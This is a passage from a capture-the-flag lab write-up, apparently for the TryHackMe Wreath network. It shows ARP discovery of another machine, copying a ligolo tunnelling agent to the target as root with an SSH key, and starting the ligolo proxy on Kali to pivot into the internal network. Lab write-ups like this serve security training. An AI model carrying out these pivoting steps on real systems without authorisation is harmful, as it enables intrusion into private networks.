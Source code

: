 Now we can run `arp -a`:
![](../../attachment/8eb2edde85ab75d09b81b3803585f146.png)
We found another machine.

Now we can proxy with ligolo. Transfer agent to target:
```
scp -i id_rsa ~/Documents/Common/ligolo/agent root@thomaswreath.thm:/tmp/
```
Then in /tmp of target:
```
chmod +x agent
```

On kali:
```
~/Documents/Common/ligolo/proxy -selfcert
```
Now we can start a tunnel:
![](../../attachment/ca2426a62e9054bd09cac2191c45cd06.png)
